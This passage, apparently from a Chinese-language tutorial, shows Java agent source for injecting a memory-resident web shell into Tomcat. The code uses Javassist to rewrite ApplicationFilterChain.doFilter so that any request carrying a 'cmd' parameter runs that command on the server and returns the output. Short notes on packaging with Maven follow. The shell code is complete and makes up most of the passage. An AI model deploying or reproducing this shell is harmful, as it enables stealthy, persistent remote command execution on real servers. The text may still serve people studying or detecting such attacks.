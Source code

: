 ```java
import javassist.*;
import java.lang.instrument.ClassFileTransformer;
import java.security.ProtectionDomain;


public class DefineTransformer implements ClassFileTransformer {

    public static final String ClassName = "org.apache.catalina.core.ApplicationFilterChain";

    public byte[] transform(ClassLoader loader, String className, Class<?> classBeingRedefined, ProtectionDomain protectionDomain, byte[] classfileBuffer) {
        /*
        * 因为className的形式是com.xx.xx，所以这里是要将它换成com/xx/xx形式
        * */
        className = className.replace("/",".");
        if (className.equals(ClassName)){
            System.out.println("Find the Inject Class: " + ClassName);
            ClassPool pool = ClassPool.getDefault();
            try {
                CtClass c = pool.getCtClass(className);
                //修改doFilter这个方法
                CtMethod m = c.getDeclaredMethod("doFilter");
                //在不改变doFilter方法原来的字节码的前提下，在原有代码前插入以下字节码
                m.insertBefore("javax.servlet.http.HttpServletRequest req =  request;\n" +
                        "javax.servlet.http.HttpServletResponse res = response;\n" +
                        "java.lang.String cmd = request.getParameter(\"cmd\");\n" +
                        "if (cmd != null){\n" +
                        "    try {\n" +
                        "        java.io.InputStream in = Runtime.getRuntime().exec(cmd).getInputStream();\n" +
                        "        java.io.BufferedReader reader = new java.io.BufferedReader(new java.io.InputStreamReader(in));\n" +
                        "        String line;\n" +
                        "        StringBuilder sb = new StringBuilder(\"\");\n" +
                        "        while ((line=reader.readLine()) != null){\n" +
                        "            sb.append(line).append(\"\\n\");\n" +
                        "        }\n" +
                        "        response.getOutputStream().print(sb.toString());\n" +
                        "        response.getOutputStream().flush();\n" +
                        "        response.getOutputStream().close();\n" +
                        "    } catch (Exception e){\n" +
                        "        e.printStackTrace();\n" +
                        "    }\n" +
                        "}");
                byte[] bytes = c.toBytecode();
                c.detach();
                return bytes;
            } catch (Exception e){
                e.printStackTrace();
                return classfileBuffer;
            }
        }else {
         return classfileBuffer;
        }
    }
}
```
打包使用`mvn assembly:assembly`一开始可能会报错，我这里报错的是：
```java
 Error reading assemblies: No assembly descriptors found.
```
在pom文件中添加下面的部分，添加的内容解释下：首先是mainfest的信息，然后就是maven-assembly-plugin这个插件，是为了可以成功打包而添加的插件。记得添加配置文件路径`src/main/resources/assembly.xml`
```java
```